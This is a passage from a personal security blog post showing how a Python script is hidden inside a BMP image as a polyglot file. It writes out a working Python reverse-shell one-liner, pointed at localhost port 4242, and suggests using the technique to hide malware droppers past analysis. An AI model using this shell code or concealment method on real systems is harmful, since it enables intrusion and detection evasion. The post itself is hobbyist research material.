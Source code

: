 Now to test it:

{{< youtube SRMZLe2WslU >}}

Pretty neat no?

Having successfully built a polyglot, I was not fully satisfied until I had met my prime directive: get more shells. So my inner monologue went something like:

*Cervando's inner voice of chaos:* "Needs more shells fam." 

*Cervando's inner voice of reason:* "Does it tho?" 

*Cervando:* ***"SHELLS GO BRRR!"*** 

So building off the work already done, all I had to do was test out a simple Python callback one-liner and append that as my payload. Because I am not *totally* chaotic, I decided to test it with just a simple callback to port `4242` on my local machine that would spawn a shell utilizing the Python one-liner:
```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```
And I added this to my polyglot with the modified header and saved it to the aptly named *protect_ya_tech_polyglot_callback.bmp*:

{{< image src="/img/python_polyglots/python_polyglot_2.png" alt="I ain't no callaback gurrrrl" position="center" style="width: 700px; height:auto;" >}}

Soooooo now to test it!

{{< youtube 6f9BvKn5l5I >}}

And that's why you always ***Protect Ya Tech!***

### Cool Story Bro
So that was cool and all, but you're probably wondering "what's the point of it?" and that's a great question to which I say: 

¯\\\_(ツ)\_/¯

Sometimes knowledge for the sake of knowledge is fun!

Other times you can use this technique to hide sensitive scripts in plain sight and hide your malware to bypass some basic analysis. Just because this Proof of Concept is not fancy, doesn't mean it can't be! You can encode a malware dropper and hide data even in the image itself or a different image. The only limit here is your imagination!

### Future Research
Of course I would like to see what all can be accomplished with this, even if it's silly! I would also like to see if this can be extended to other file formats like PDFs and other compiled executables as my payload because then that can get ***SPICY***. Until then I just wanted to do something cool based on an idea I had that one (of the many) time I spilled BBQ sauce all over myself. 

If you have any thoughts or questions feel free to reach out!

### GitHub Repository
You can find the repo with all the Bitmaps for you to see and play with here:
